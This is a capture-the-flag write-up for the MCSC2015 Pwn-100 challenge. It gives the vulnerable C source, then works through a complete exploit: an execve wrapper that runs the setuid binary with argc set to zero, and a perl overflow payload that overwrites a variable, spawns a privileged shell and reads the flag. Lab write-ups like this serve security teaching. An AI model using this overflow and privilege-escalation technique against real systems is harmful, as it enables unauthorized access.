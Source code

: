 \#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
MCSC2015 writeup for Pwn-100
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#

pwn0@MCSC2015:/challenges/pwn0$ ls -l
total 16
-rws--s--x 1 pwned0 pwned0 7492 mai   18 15:13 0
-r-------- 1 pwned0 pwned0   52 mai   18 15:13 FLAG
-rw-r--r-- 1 root   root    558 mai   18 15:13 pwn0.c

after a quick view in pwn0.c, here's an interesting function

void vuln() 
{
	unsigned int reg;
	char buffer[BUFF_SIZE];
	fgets(buffer , BUFF_SIZE+5 , stdin);
	if(reg == 78954)
	{
		printf("You Win\n");
		system("/bin/dash");
	}
}

However, this function is executed if and only if argc is equal to zero.
In that case, execve can be handy ...


Step 1 : run the program with argc equals to zero to allow the function vuln() to be executed.
Step 2 : overwrite the variable reg with 78954
if(reg == 78954)
{
	printf("You Win\n");
	system("/bin/dash");
}
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
Step1 : run a program with argc=0
What's special about the family exec call system ?
execve allows you to specify the command-line arguments (including the program name).
a normal call to execve for example would be :
execve("/home/xxx/prog","prog",NULL) witch is similar to /home/xxx/prog with argc equals to 1 as usual ....
execve("/home/xxx/prog",NULL,NULL) would be a little bit different .... argc is equal to zero in that case.

with that said, let's start exploiting .....
First, we write a small program 
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
\#include \<stdio.h>
\#include \<stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#\#
pwn0@MCSC2015:/tmp$ mkdir /tmp/testing
pwn0@MCSC2015:/tmp$ cd /tmp/testing/
pwn0@MCSC2015:/tmp/testing$ cat wrapper.c
\#include \<stdio.h>
\#include \<stdlib.h>
int main()
{
	execve("/challenges/pwn0/0",NULL,NULL);
}
pwn0@MCSC2015:/tmp/testing$ gcc wrapper.c -o wrapper
pwn0@MCSC2015:/tmp/testing$ ./wrapper 
Good Boy
test
pwn0@MCSC2015:/tmp/testing$

we are finally able to execute the vuln() function, let's try to exploit it:
The buffer size is 64, 78954 to hexadecimal is 0x1346A
===========================
A successful exploitation would be like this:
pwn0@MCSC2015:/challenges/pwn0$ perl -e 'print "A"x64 . "\x6a\x34\x01\x00"' > /tmp/testing/input
pwn0@MCSC2015:/challenges/pwn0$ cat /tmp/testing/input -|/tmp/testing/wrapper 
Good Boy
You Win
id      
uid=1001(pwn0) gid=1001(pwn0) euid=1002(pwned0) egid=1002(pwned0) groups=1002(pwned0),1001(pwn0)
cat FLAG
flaG{I_4M_Th3_EaSy_One_Pwn_th3_N3xt_L3vel_If_U_C4N}

